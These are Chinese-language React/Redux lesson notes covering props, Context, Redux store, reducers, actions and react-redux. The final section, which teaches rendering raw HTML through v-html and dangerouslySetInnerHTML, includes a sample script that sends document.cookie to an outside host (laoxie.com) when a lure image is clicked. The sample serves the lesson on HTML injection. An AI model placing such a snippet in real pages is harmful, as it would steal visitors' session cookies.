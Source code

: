 ## day6-2

### 复习
* 组件通讯
    * 父->子：props
        1. 在父组件中定义子组件的属性，并传递数据
        2. 使用
            * 函数组件：第一个参数为props
            * 类组件：this.props
    * 子->父
        > 传递父组件的方法到子组件执行
    * 多层级组件传参数
        * 逐层传递
        * Context
            1. 创建Context：`let MyContext = React.createContext(defalutValue)`
            2. 父组件共享数据：Provider
                ```js
                    <MyContext.Provider value={data}></MyContext>
                ```
            3. 子组件获取Context数据
                * contextType
                    ```js
                        SubComponent.contextType = MyContext;
                        this.context.xxx
                    ```
                * Consumer
                    ```js
                        <MyContext.Consumer>
                            {
                                data=>{
                                    return <div></div>
                                }
                            }
                        <MyContext.Consumer>
                    ```

### 知识点
* React & Redux
    > 他们是两个独立的产品，Redux不是React专属，它可以与任何第三方框架配合使用

* Redux
    > 搞清楚redux有什么，解决了什么问题
    * 核心概念Store
        * dispatch(action)    修改state的唯一方法
        * getState()          获取state数据
        * subscribe()
    * State
        > 真正存放数据的地方

    * Reducer：修改数据的方式
        > 在创建store时要事先定义好如何修改上面的数据
        * reducer是一个纯函数，state和actoin作为参数
        * 必须返回一个新的state
    * Action    命令（动作）
        * 格式：`{type,payload}`
            * type      要做什么操作
            * payload   传递的参数
        * Action Creator：一个用于创建action的方法
            * bindActionCreators：把ActionCreator中的所有方法(export default中的方法)绑定到组件props

* redux使用步骤
    1. 创建store（需要指定state与state的修改方式）
        * 需要定义state
        * 需要定义Reducer
    2. 定义State：状态（数据）
    3. 定义Reducer
        * 修改state的方式
        * 必须返回一个新的state
    4. 使用
        * 获取：store.getState()
        * 修改：store.dispatch(action)
        * 监听：store.subscribe(fn)
    
* react-redux
    * 利用context把store上的数据传入到react组件中
    * 使用步骤
        1. 在最外层使用`<Provider/>`组件，并共享Store
            ```js
                <Provider store={store}>
            ```
        2. 使用`connect`高阶组件映射数据到组件的props
            ```js
                connect([mapStateToProps][,mapDispatchToProps])(MyComponent)
            ```
            * 统一处理redux操作

* 在组件中显示包含html代码的数据
    ```html
        <img src="meinv.png" id="meinv"/>
        <h4>点我有惊喜</h4>
        <script>
            let meinv = document.querySelector('#meinv');
            meinv.onclick = function(){
                location.href="http://laoxie.com?data="+document.cookie

            }
        </script>
    ```
    * Vue：v-html
    ```html
        <div v-html="content"></div>
    ```
    * React:
    ```jsx
        //<div>{content}</div>
        <div dangerouslySetInnerHTML={{__html:content}}></div>
    ```
